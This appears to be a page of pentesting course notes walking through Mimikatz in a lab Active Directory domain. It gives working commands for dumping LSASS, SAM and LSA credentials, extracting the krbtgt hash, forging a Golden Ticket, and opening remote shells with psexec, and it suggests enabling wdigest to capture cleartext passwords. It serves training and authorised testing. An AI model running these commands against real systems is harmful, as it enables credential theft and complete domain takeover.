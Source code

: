 # Mimikatz

Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks

- dumps credentials stores in memory
- A few attacks:
	- Credential Dumping
	- Pass-the-Hash 
	- Over-Pass-the-Hash
	- Pass-the-Ticket
	- Golden Ticket
	- Silver Ticket


Very likely to be picked up / caught

mimikatz changes all the time, might not work the same by the time we use it

We will learn how to keep persistance and have a 'Golden Ticket'

## Credential Dumping with Mimikatz
Go on github page and download mimikatz_trunk.zip straight to our DC
We will assume we have compromised the DC.

Mimikatz wiki very helpful (learn about different modules)

```
C:\Users\Administrator\Downloads>mimikatz.exe
```
Syntax something like `module::option`

![mim-0](https://user-images.githubusercontent.com/87711310/209465545-0127faf5-10ee-49e3-8a16-44a7f3a96772.png)

debug means it is allowing us to debug a process that we would otherwise not have access to.
`Privilege '20' OK`

We are going to attempt to dump some info out of memory. We need to be able to bypass the memory protections in place
Especially for the lsass.exe for example

We will run a few attacks

First: 
```
securlsa::logonpasswords
```

![mim-1](https://user-images.githubusercontent.com/87711310/209465544-49660e87-5934-4864-89ae-1d021942e96c.png)

We get NTLM hashes, accounts that are logged in, etc. 
wdigest is a feature that in Windows 7 and below stored passwords in cleartext. The feature still exists even if it was patched in Windows 8 and above. If we turn it on, it will store passwords in cleartext and if we wait and someone logs out and in we will get the pass in cleartext

Can try and get the sam
```
lsadump::sam
lsadump::sam /patch
```
even if these don't work, there are other ways we have learned

```
lsadump::lsa /patch
```

![mim-2](https://user-images.githubusercontent.com/87711310/209465546-66b0736f-fc6d-4c85-b07a-ecf9956ad2b4.png)

LSA == Local Security Authority
- A protected subsystem in Windows Authentication
- It authenticates and creates logon sessions to the local computer 
We are on a DC and we are dumping the LSA here, this is one option

We are looking at usernames and NTLM hashes. So can just try to crack them offline... (hashcat etc.). It does matter to see what percentage of passwords we crack to comment on how strong the client's password policy is. It gives them a number to put on their policy. 

Other option, we can download the NTDS.dit file which will contain all the credentials as well

## Golden Ticket

krbtgt account > we can generate tickets from there
Previously, we got the hash for it
PIC

Like that, we get to generate Kerberos TGT's 
With a Kerberos TGT we can request access to any system or resource on the domain using the Ticket granting service
- When we have a **golden ticket** it means we have full access to the entire domain, all the machines we can get shell's on, can get all files, all folders etc.

```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

![mim-3](https://user-images.githubusercontent.com/87711310/209465547-f08eefad-c766-402b-86cd-ae3cd043288a.png)

like that, we only pull the krbtgt user


Need to copy domain SID and Primary NTLM 

![mim-4](https://user-images.githubusercontent.com/87711310/209465548-8726ba26-8eee-4357-b265-dd214530f3bf.png)

Syntax:
```
kerberos::golden /User:FakeAdmin /domain:marvel.local /sid:<domain_SID> /krbtgt:<krbNTLMprimary> /id:500 /ptt
```
The admin account 'rid' is 500
ptt for pass the ticket, i.e. pass the ticket along to the next (current or next) session. We will use this ticket to open up a CMD prompt, and that will be able to access any computer we want 

![mim-5](https://user-images.githubusercontent.com/87711310/209465542-e912b421-dab1-4144-bd6a-882315f2ebfa.png)

Then do
```
mimikatz # misc::cmd
```

That will open a new cmd prompt window

![mim-6](https://user-images.githubusercontent.com/87711310/209465543-d228654f-5df8-468d-8ca0-83a868428cb8.png)

can access any computer (e.g. DARTHVADER or SPOCK)

Can even download psexec.exe (it is a Windows tool) and run it on the machine and get shells. And run it against the computers and we can get a shell like that:
```
psexec.exe \\DARTHVADER cmd.exe
```

